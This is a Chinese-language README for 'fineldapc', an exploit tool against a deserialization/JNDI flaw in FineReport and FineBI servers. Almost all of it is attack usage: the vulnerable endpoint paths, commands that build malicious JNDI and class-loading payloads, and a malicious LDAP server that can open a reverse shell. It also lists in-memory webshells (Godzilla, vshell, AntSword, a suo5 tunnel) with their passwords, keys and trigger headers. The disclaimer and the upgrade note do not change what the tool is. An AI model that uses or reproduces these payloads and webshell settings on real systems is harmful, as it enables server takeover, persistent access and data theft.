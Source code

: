 ### fineldapc

```shell
  ▄████████  ▄█  ███▄▄▄▄      ▄████████  ▄█       ████████▄     ▄████████    ▄███████▄  ▄████████
  ███    ███ ███  ███▀▀▀██▄   ███    ███ ███       ███   ▀███   ███    ███   ███    ███ ███    ███
  ███    █▀  ███▌ ███   ███   ███    █▀  ███       ███    ███   ███    ███   ███    ███ ███    █▀
 ▄███▄▄▄     ███▌ ███   ███  ▄███▄▄▄     ███       ███    ███   ███    ███   ███    ███ ███
▀▀███▀▀▀     ███▌ ███   ███ ▀▀███▀▀▀     ███       ███    ███ ▀███████████ ▀█████████▀  ███
  ███        ███  ███   ███   ███    █▄  ███       ███    ███   ███    ███   ███        ███    █▄
  ███        ███  ███   ███   ███    ███ ███▌    ▄ ███   ▄███   ███    ███   ███        ███    ███
  ███        █▀    ▀█   █▀    ██████████ █████▄▄██ ████████▀    ███    █▀   ▄████▀      ████████▀
                                         ▀                                      power by unam4

漏洞路径: /webroot/decision/remote/design/channel

加载jsp依赖： /webroot/decision/file?path=org.apache.jasper.servlet.JasperInitializer&type=class

获取版本: /webroot/decision/system/info

生成恶意jndibin：java -jar fineldapc.jar -jndibin  [rmi|ldap]://host:port/obj

开启恶意ldap：java -jar fineldapc.jar -jndibin <port> <CLASS:classname>/<resershell:ip#port>/<FILE:filepath>

生成恶意类加载bin: java -jar fineldapc.jar -loadbin classname

classname: (fineBI都可以使用，finereport请用jsp类型)

tomcatecho (head头 Etags: base64enc(Command))
godzilla_mem    加密器: JAVA_AES_BASE64 密码: Hwtfhlitg 密钥: Loklewkvqbo 请求路径: /* 请求头: User-Agent: Orjuagk
suo5    (suo5 -d -l 0.0.0.0:7788 --auth test:test123 --ua 'Nuexq' -t http(s)://ip:port/webroot/decision)
vshell(agent): 加密器: JAVA_AES_BASE64 密码: Iddzfpe 密钥: Septtdzjura 请求路径: /* 请求头: Referer: Aiskhs 脚本类型: JSP
anstword  类型：jspjs 密码: b
suo5jsp: suo5 -t http://10.211.55.2:8075/webroot/tunnel.jsp
godzillajsp: 加密器: JAVA_AES_BASE64 密码: fine 密钥: ldapc 请求路径: /*

重要: !!!
免责声明 该工具仅用于安全自查检测
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
```
起恶意ldap 填写端口要加载class，或者 resershell:127.0.0.1#8888 进行反弹shell（win/linux 都行），FILE:filepath 用于返回指定的字节流。

生成bin

![image-20240901233223069](README/image-20240901233223069.png)

开启起ldap服务

![image-20240901233310493](README/image-20240901233310493.png)

攻击

![image-20240901232757401](README/image-20240901232757401.png)

**生产千万不要使用vshell(agent)**

![image-20240906202857923](README/image-20240906202857923.png)

![image-20240906202943055](README/image-20240906202943055.png)



![image-20240906203107835](README/image-20240906203107835.png)

![image-20240906203304224](README/image-20240906203304224.png)

![image-20240906203337102](README/image-20240906203337102.png)

![image-20240906203413750](README/image-20240906203413750.png)

### 原理

https://unam4.github.io/2024/06/23/%E6%9F%90%E6%8A%A5%E8%A1%A8%E6%9C%80%E6%96%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E/
https://unam4.github.io/2024/06/03/%E6%96%B0jdk%E5%8E%9F%E7%94%9F%E5%85%A5%E5%8F%A3%E5%88%B0jndi/

### 修复
官网确认 2024-05以前版本受到影响，升级之后版本不收此漏洞影响。

### 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
